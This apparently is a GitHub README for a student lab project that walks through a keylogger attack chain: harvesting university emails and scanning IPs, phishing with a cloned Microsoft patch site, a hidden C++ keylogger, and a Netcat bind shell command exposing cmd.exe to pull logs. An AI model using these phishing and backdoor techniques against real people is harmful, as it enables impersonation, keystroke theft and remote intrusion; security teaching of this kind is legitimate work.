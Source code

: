 # keylogger

Disclaimer: This project is for educational purposes only. 

The project consists of three stages, reconnaissance, phishing, and attack, respectively. You can check the [slide](https://docs.google.com/presentation/d/1gPKOFa4L5iZNUBC93aRHLyo68CuBljt5r5G959ol310/edit?usp=sharing) and [demo video](https://drive.google.com/file/d/1p_wR3EA5aYX3AFgCXlgbovBPu3-YU2k-/view?usp=sharing) for the further information. During the recon stage, the attacker collects target email addresses and uses ARP scan to obtain target IPs. Next, during the phishing stage, the attacker sends phishing emails that contain the link of the phishing website (fake Microsoft website in our case) to the victims. The downloader in the phishing website will redirect to the link of malware. If the victims follow the instructions, that is, download and run the .bat file (contains malware actually), the executable will start logging the keystrokes and create a backdoor shell. So the attacker can use the backdoor to retrieve a log file that contains some sensitive data. 

![](https://github.com/chuang76/keylogger/blob/main/figure/arch.png?raw=true)



## Requirement

- Virtualbox 5.2.18
- Kali Linux 64-bit VM
- Windows Server 2016 VM, which security protection is disabled (i.e., no firewall and antivirus software)
- Visual Studio C++ build tools 
- Netcat 



## How to use

### Recon

1. Target email addresses: According to the NCKU student ID number rule, we can collect a number of email addresses. Take a quick example, the student ID number which starts with "F7409" means the student majors in computer science and is enrolled in 2020. 

2. Target IPs: Since the attacker and victims are in the same subnet, we can use the `arp-scan` command in the Kali machine to execute the scanning, then parse the information to get target IPs. 

   ```
   $ sudo arp-scan -local 
   ```

### Phishing 

Microsoft exchange server vulnerability is one of the serious issues in 2021. Microsoft then released the patches to tackle the vulnerability. Our idea is to create a fake Microsoft patching website and cheat the victims to download the fake patch, which is malware actually.  

1. Phishing email: Warn the victims there may be a Microsoft exchange server vulnerability in his/her computer and lead the victims to access the phishing website. 

2. Phishing website: Use DriveToWeb service to host the phishing website, which is the same as the Microsoft official patching website, except for the instructions and the downloader. 

### Keylogger

The keylogger is based on Windows programming with C++. The keylogger keeps tracking keystrokes with the WinAPI `GetAsyncKeyState()` and logging the typed information as a file. Besides, the keylogger is hidden from the taskbar with the WinAPI `ShowWindow()` and the parameter `SW_HIDE`. For detailed information, please check the Windows app developer documentation. 

### Backdoor shell

Netcat is a useful networking tool. However, it is not secure. In our case, we use Netcat to create a backdoor shell. So we can retrieve the logging file which contains some sensitive information. 

1. Victim

   ```
   $ nc -l -p <port number> -t -e cmd.exe
   ```

2. Attacker

   ```
   $ nc <victim IP> <port number>
   ```

   

## Result

Here is some snapshots. 

The left is the official Microsoft patching website, while the right is the phishing website. 

![](https://github.com/chuang76/keylogger/blob/main/figure/phishing.png?raw=true)

Launch the keylogging attack successfully as follows, the left is the attacker and the right is the victim. 

![](https://github.com/chuang76/keylogger/blob/main/figure/result.png?raw=true)